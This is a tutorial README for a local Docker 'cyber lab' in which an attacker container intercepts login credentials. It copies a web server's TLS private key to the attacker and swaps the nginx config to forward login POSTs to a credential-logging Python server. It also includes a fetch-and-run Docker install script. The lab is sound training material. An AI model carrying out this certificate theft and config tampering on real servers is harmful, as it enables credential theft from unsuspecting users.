

# Create a Home Cyber Lab and Intercept User Credentials
Created by: Stephen Hayes and Kevin Seldomridge

This document will take you through creating three docker containers, a web server, an attacker and an ubuntu user. The web server represents a legitimate web server that serves up a web page a user can log in to. The attacker will act as a malicious server that is designed to steal login credentials after hacking the config files of the legitimate web server.

There are two ways to do this, manually or through the autmated code in this repository. We will show you both ways.
## Docker Crash Course
```
# Install Docker
apt-get update
curl -fsSL https://get.docker.com -o get-docker.sh
sudo sh get-docker.sh
docker

# Show all running containers
docker ps

# Show all docker containers created from baseline images
docker ps -a

# Show all docker images
docker images
```
## Automated Home Lab Creation
### Build the Cyberlab
To build the CyberLab you just need to run 1_buildCyberLab.sh on your linux machine. Ensure docker is installed before running.
```
# Build CyberLab
./1_buildCyberLab.sh
```
</br>


After a few minutes the docker images will be created and the containers launched
</br>


You Should now be able to go to https://localhost and see a login page.
</br>


Once you log in you will be greeted with the landing page.
</br>


### Run the Attack Script
Now lets run the attack and steal the credentials of the user logging in.
```
# Run the attack script
./2_attackServer.sh
```
You should now be inside the terminal of the attacker container
</br>


We are going to start the attacker python web server script
```
# Change directorties to the location of the simple_https.py script
cd simple-https-python-server

# Launch simple_https.py on attacker system
python3 simple_https.py
```
#### Test the attack
Leave the attacker terminal open and log into the web page with some credentials. Notice the new website that shows up and the stolen credentials in the attackers terminal.
</br>


### Teardown the CyberLab
To tear down the CyberLab, run 3_tearDownCyberLab.sh. This scrip will delete all containers, images and networks that were created for the lab.
```
# Tear down CyberLab
./3_tearDownCyberLab.sh
```

## Manual Home Lab Creation
### Create the cyberNet Networkz
```
# Create a network the containers can connect to
docker network create -d bridge cyberNet --subnet 172.20.0.0/16 --gateway 172.20.0.1
```
### Create the Containers
#### The Ubuntu Container
Open a new terminal window to create the Ubuntu container and install its dependencies
##### Create and run the Ubuntu Container
```
# Pull the latest ubuntu image to your machine
docker pull ubuntu:latest

# run the ubuntu image with the name ubuntu_machine in interactive terminal mode
# --name: the name of the container
# -it: run in interactive terminal mode
docker run --name ubuntu_machine --network cyberNet --ip 172.20.0.3 -it ubuntu
```
##### Install Ubuntu dependencies
```
# Update apt
apt-get update

# Install iproute2, iputils-ping
apt-get install iproute2 iputils-ping curl
```
#### The Web Server Container
Open a new terminal window to create the Web Server container and install its dependencies
##### Create and run the Web Server Container
```
# Pull the latest nginx image to your machine
docker pull nginx:latest

# run the nginx image with the name web_server
# -it: Interactive terminal mode
# -p: map ports to host machine
docker run --name web_server --network cyberNet --ip 172.20.0.4 -it -p 80:80 -p 443:443 nginx /bin/sh
```
##### Install Web Server dependencies
```
# Update apt
apt-get update

# Install iproute2, iputils-ping, openssl, net-tools
apt-get install iproute2 iputils-ping openssl net-tools
```
#### The Attacker Container
Open a new terminal window to create the Attacker container and install its dependencies
##### Create and run the Attacker Container
```
# Pull the latest leplusorg/kali image to your machine
docker pull leplusorg/kali:latest

# run the ubuntu image with the name ubuntu_machine in interactive terminal mode
# --name: the name of the container
# -it: run in interactive terminal mode
docker run --name attacker --network cyberNet --ip 172.20.0.2 -it leplusorg/kali
```
##### Install Attacker dependencies
```
# Update apt
apt-get update

# Install iproute2, iputils-ping, python3, python3-pip
apt-get install iproute2 iputils-ping python3 python3-pip
```
### Copy Dependencies into Containers
The following commands are to be done in a terminal on the host machine
#### Copy web_server dependencies
```
# Copy c2_config.c2 file from nginx folder to web_server
docker cp nginx/c2_config.c2 web_server:/etc/nginx/conf.d/default.conf

# Make submit directory in web_server
docker exec web_server mkdir /usr/share/nginx/html/submit

# Copy cyberdemologo.jpeg file from nginx folder to web_server
docker cp nginx/cyberdemologo.jpeg web_server:/usr/share/nginx/html/submit

# Copy index.html file from nginx folder to web_server
docker cp nginx/index.html web_server:/usr/share/nginx/html/

# Copy bannerlogo.png file from nginx folder to web_server
docker cp nginx/bannerlogo.png web_server:/usr/share/nginx/html/

# Copy illustration.png file from nginx folder to web_server
docker cp nginx/illustration.png web_server:/usr/share/nginx/html/

# Copy submit.html from nginx folder to web_server
docker cp nginx/submit.html web_server:/usr/share/nginx/html/submit/index.html
```
#### Copy attacker dependencies
```
# Make directory simple-https-python-server
docker exec attacker mkdir /simple-https-python-server

# Copy simple_https.py from leplusorg folder to attacker
docker cp leplusorg/simple_https.py attacker:/simple-https-python-server/simple_https.py

# Copy skynet.gif file from leplusorg folder to attacker
docker cp leplusorg/skynet.gif attacker:/simple-https-python-server/skynet.gif

# Copy submit.html file from leplusorg folder to attacker
docker cp leplusorg/submit.html attacker:/simple-https-python-server/submit.html
```
### Generate Certificates using OpenSSL
Now we will create a Self-Signed Certificate, so we can serve https rather than http through our web server.
In the web_server container terminal execute the following command:
```
openssl req -x509 -nodes -days 365 -newkey rsa:4096 -keyout /etc/ssl/private/nginx-selfsigned.key -out /etc/ssl/certs/nginx-selfsigned.crt -subj "/C=US/ST=MD/O=CyberSecurityDemo/OU=IT/CN=presentation.com"
```
#### Reload nginx on web server
```
nginx -s reload
```
### Manual Mode Finished
You should now be able to go to https://localhost and log in to a web portal and see a homepage.
</br>


### Manual Mode Attack
Now lets execute an attack against the web server by forwarding post requests to the attack container. This attack container will steal the credentials of the user logging in.
#### Copy the certificates from the web_server to the attacker
```
# Copy public and private keys from web server to simulate stolen certs
docker cp web_server:/etc/ssl/private/nginx-selfsigned.key .
docker cp web_server:/etc/ssl/certs/nginx-selfsigned.crt .

# Copy stolen certs to attackers machine so they can serve malicious webpage
docker exec -i attacker sh -c 'cat > /simple-https-python-server/nginx-selfsigned.crt' < ./nginx-selfsigned.crt
docker exec -i attacker sh -c 'cat > /simple-https-python-server/nginx-selfsigned.key' < ./nginx-selfsigned.key

# Remove intermediate cert files from machine running this script
rm -f nginx-selfsigned.crt
rm -f nginx-selfsigned.key
```
#### Modify c2_config.c2 file
This will modify the c2 config file to route traffice to the attackers machine when the form is submitted.
```
# Change c2_config.c2 file to route traffic to attackers machine
docker exec -i web_server sh -c 'cat > /etc/nginx/conf.d/default.conf' < ./nginx/c2_config_malicious.c2
docker exec -i web_server sh -c 'nginx -s reload'
```
#### Launch Attacker python web server
Now we will launch the python web server to log the credentials submitted from the login page
Do the following in the attacker terminal
```
# Launch simple_https.py on attacker system
cd simple-https-python-server
python3 simple_https.py
```
#### Test the attack
Leave the attacker terminal open and log into the web page with some credentials. Notice the new website that shows up and the stolen credentials in the attackers terminal.
</br>


